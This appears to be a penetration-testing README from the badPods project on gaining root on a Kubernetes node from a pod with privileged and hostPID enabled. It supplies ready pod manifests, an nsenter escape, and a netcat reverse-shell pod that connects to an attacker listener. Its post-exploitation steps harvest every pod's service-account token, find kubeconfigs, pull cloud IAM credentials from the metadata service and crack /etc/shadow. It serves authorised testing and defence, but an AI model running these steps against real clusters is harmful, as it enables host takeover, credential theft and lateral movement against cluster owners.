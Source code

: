 # You can create a pod with privileged: true + hostPID

If you have `privileged=true` and `hostPID` available to you, you can use the `nsenter` command in the pod to enter PID=1 on the host, which allows also you gain a root shell on the host, which provides multiple potential paths to cluster-admin. 

One promising privesc path is available if you can schedule your pod to run on the control plane node using the nodeName selector (not possible in most cloud hosted k8s environments). Even if you can only schedule your pod on the worker node, you can access the node's kubelet credentials or you can create mirror/static pods in any namespace. You can also access any secret mounted within any pod on the node you are on. **In a production cluster, even on a worker node, there is usually at least one pod that has a `token` mounted that is bound to a `service account` that is bound to a `clusterrolebinding`, that gives you access to do things like create pods or view secrets in all namespaces**.  


# Pod Creation

## Create a pod you can exec into
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-priv-and-hostpid
  labels: 
    app: pentest
spec:
  hostPID: true
  containers:
  - name: priv-and-hostpid
    image: ubuntu
    command: [ "/bin/bash", "-c", "--" ]    
    args: [ "while true; do sleep 30; done;" ]
    securityContext:
      privileged: true
    #nodeName: control-plane-node-name # Uncomment and change to control node name to try and schedule pod on control-plane node
  restartPolicy: Always
  ```
[pod-priv-and-hostpid.yaml](pod-priv-and-hostpid.yaml)

#### Option 1: Create pod from local yaml 
```bash
kubectl apply -f pod-priv-and-hostpid.yaml  
```
#### Option 2: Create pod from github hosted yaml
```
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/pod-priv-and-hostpid.yaml  
```

#### Exec into pod 
```bash
kubectl -n [namespace] exec -it pod-priv-and-hostpid -- bash
```

#### Use nsenter to gain full root access on the node
```bash
nsenter --target 1 --mount --uts --ipc --net --pid -- bash
```

## Or, create a reverse shell pod
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-everything-allowed-revshell
  labels:
    app: pentest
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: everything-allowed-revshell
    image: busybox
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "nc $HOST $PORT  -e /bin/sh;" ]
    #nodeName: control-plane-node-name # Uncomment and change to control node name to try and schedule pod on control-plane node
  volumes:
  - name: noderoot
    hostPath:
      path: /
```
[pod-priv-and-hostpid-revshell.yaml](pod-priv-and-hostpid-revshell.yaml)

#### Set up listener
```bash
nc -nvlp 3112
```

#### Create the pod
```bash
# Option 1: Create pod from local yaml without modifying it by using env variables and envsubst
HOST="10.0.0.1" PORT="3112" 
envsubst < ./yaml/priv-and-hostpid/pod-priv-and-hostpid-revshell.yaml | kubectl apply -f -
```

#### Catch the shell and chroot to /host 
```bash
~ nc -nvlp 3112
Listening on 0.0.0.0 3112
Connection received on 10.0.0.162 42035
```

# Post exploitation

You now have root access to the node. Here are some next steps: 

#### Look for kubeconfig's in the host filesystem 
If you are lucky, you will find a cluster-admin config with full access to everything (not so lucky here on this GKE node)

```bash
find / -name kubeconfig
/var/lib/docker/overlay2/e13d54160a660c0486276f54449e9d9d364aaa4c985a3b71010d8bc31e520838/merged/var/lib/kube-proxy/kubeconfig
/var/lib/docker/overlay2/e13d54160a660c0486276f54449e9d9d364aaa4c985a3b71010d8bc31e520838/diff/var/lib/kube-proxy/kubeconfig
/var/lib/node-problem-detector/kubeconfig
/var/lib/kubelet/kubeconfig
/var/lib/kube-proxy/kubeconfig
/home/kubernetes/containerized_mounter/rootfs/var/lib/kubelet/kubeconfig
/mnt/stateful_partition/var/lib/docker/overlay2/e13d54160a660c0486276f54449e9d9d364aaa4c985a3b71010d8bc31e520838/diff/var/lib/kube-proxy/kubeconfig
/mnt/stateful_partition/var/lib/node-problem-detector/kubeconfig
/mnt/stateful_partition/var/lib/kubelet/kubeconfig
/mnt/stateful_partition/var/lib/kube-proxy/kubeconfig
```

#### Grab all tokens from all pods on the system
Use something like access-matrix to see if any of them give you more permission than you currently have. Look for tokens that have permissions to get secrets in kube-system

```bash
# This lists the location of every service account used by every pod on the node you are on, and tells you the namespace. 
tokens=`find /var/lib/kubelet/pods/ -name token -type l`; for token in $tokens; do parent_dir="$(dirname "$token")"; namespace=`cat $parent_dir/namespace`; echo $namespace "|" $token ; done | sort

default | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-t25ss/token
default | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-t25ss/token
development | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-qqgjc/token
development | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-qqgjc/token
kube-system | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/kube-proxy-token-x6j9x/token
kube-system | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/calico-node-token-d426t/token


# For each interesting token, copy token value to somewhere you have kubectl set and see what permissions it has assigned to it
DTOKEN=`cat /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-qqgjc/token`
kubectl auth can-i --list --token=$DTOKEN -n development # Shows namespace specific permissions
kubectl auth can-i --list --token=$DTOKEN #Shows cluster wide permissions

# Does the token allow you to view secrets in that namespace? How about other namespaces?
# Does it allow you to create clusterrolebindings? Can you bind your user to cluster-admin?
```

If cloud hosted, look at the metadata service and checkout user-data, and the IAM permissions. If an IAM role has been assigned to the node, use that to see wht access you hav in the cloud environment. 

```bash
curl http://169.254.169.254/latest/user-data 
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
curl -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/[account]/default/token
```

Some other ideas:
* Add your public key to node and ssh to it
* Crack passwords in /etc/shadow, see if you can use them to access other nodes
* Look at the volumes that each of the pods have mounted. You might find some pretty sensitive stuff in there

Attacks that apply to all pods, even without any special permissions
* Cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster

# Demonstrate Impact

If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the penetration test. 

Reference(s): 
* https://twitter.com/mauilion/status/1129468485480751104
* https://github.com/kvaps/kubectl-node-shell
